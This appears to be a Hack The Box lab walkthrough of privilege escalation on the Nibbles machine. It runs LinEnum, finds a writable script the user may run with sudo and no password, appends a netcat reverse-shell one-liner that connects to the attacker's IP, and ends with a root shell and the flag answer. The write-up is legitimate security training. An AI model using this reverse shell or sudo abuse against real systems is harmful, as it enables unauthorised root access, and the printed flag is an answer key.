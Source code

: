 - Now that we have a reverse shell connection, it is time to escalate privileges. 
- Unzip the `personal.zip` file and see a file called `monitor.sh`.
```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```
- The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user.
- It is also shown to be writeable as well.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```
- Let pull up [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks. 
- First, download the script to your local attack VM or the Pwnbox.
- Next, start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```shell-session
secmancer@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```
- Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script. 
- If successful, we will see a 200 success response on our Python HTTP server. 
- Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable.
- Type `./LinEnum.sh` to run it. 
- We see a ton of interesting output but what immediately catches the eye are `sudo` privileges.
```shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
- The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. 
- Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. 
- Let us edit the `monitor.sh` file to append a reverse shell one-liner.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```
- Finally, catch the root shell on our waiting `nc` listener.
```shell-session
secmancer@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```
- From here, we can grab the `root.txt` flag. 
- Congrats, we solved our first box on HTB!

### Questions
- Escalate privileges and submit the root.txt flag.
	- de5e5d6619862a8aa5b9b212314e0cdd
